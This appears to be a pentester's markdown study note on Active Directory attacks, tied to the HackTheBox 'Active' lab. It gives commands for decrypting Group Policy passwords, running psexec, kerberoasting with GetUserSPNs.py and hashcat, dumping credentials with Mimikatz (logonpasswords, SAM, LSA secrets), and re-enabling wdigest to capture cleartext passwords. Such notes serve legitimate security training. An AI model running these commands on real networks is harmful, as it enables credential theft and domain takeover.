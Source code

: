 #### Checking for GPP in Metasploit

* background shell and run from auxilary `smb_enum_gpp`

#### Decrypting GPP in Kali

* `gpp-decrypt <cPassword from Group Policy xml file>`
* result in example: password
* we can now abuse GPP using ***psexec.py*** and the ***password***

#### Abusing GPP

* `psexec.py active.htb/svc_tgs:password@<target IP>`
* it is possible to get valid user credentials but ***not writable*** in this case we can do ***kerberoasting***
* `GetUserSPNs.py active.htb/svc_tgs:password -dc-ip <taget IP> -request` and we get the service ticket, copy and save this ticket into a file
* pass it into hashcat and: `hashcat -m 13100 hashes.txt rockyou.txt -O`
* because this service account is also an administrator account 

#### For Practice

* HTB:Active machine is excellent!

### Mimikatz

#### What is Mimikatz?

* Mimikatz is a tool to view and steal credentials.
* Dumps credentials that are stored in memory, pass the hash, golden ticket etc.
* git clone repo from **[here](https://github.com/gentilkiwi/mimikatz)**
* If you don't want to build it, binaries are availables **[here](https://github.com/gentilkiwi/mimikatz/releases)**
* it's a cat and mouse game with Windows and Mimikatz, Windows patches, Mimikatz updates...
* download it directly to your Domain Controller (assuming that you already compromised it)
* check out the Wiki on the Mimikatz github repo for more information on the different things it can do
* additional Mimikatz commands:
* > privilege::debug sekurlsa::logonpasswords
* > sekurlsa::logonpasswords
* > lsadump::sam
* > token::elevate lsadump::sam
* > lsadump::secrets
* > token::elevate lsadump::sam

#### Credential Dumping with Mimikatz

* run ***mimikatz.exe*** on the Domain Controller
* first command: `privilege::debug` 
* response should be: ***privilege '20' OK***
* if you don't run the above command first you won't be able to execute the attacks and the memory protection, speccially for the ***lsass.exe*** 
* `sekurlsa::logonpasswords` 
* not only we are compromising the Domain Controller but even as the regular computer. It dumps any user that has logged on and we dump their NTLM hash. We are taking advantage of this stored in memory.
* **because this hash is an NTLM it can be passed around with Mimikatz**
* it also shows the wdigest which is a feature in Windows 7 and previous versions, it stored the password in clear text
* from Windows 8 on they patched it, they turned it off, but we can turn it on and then wait for someone to log in :)
* this is a registry feature, turn it on and wait for someone to log in
* **dumping the SAM:** `lsadump::sam` sometimes it doesn't work but it's worth a try
* another way of dumping the SAM: `lsadump::sam /patch`
* ***if it doesn't work we can try to use metasploit and or secretsdump.py and dump the SAM***
* `lsadump::lsa /patch` the ***patch*** allows us to get to the infromations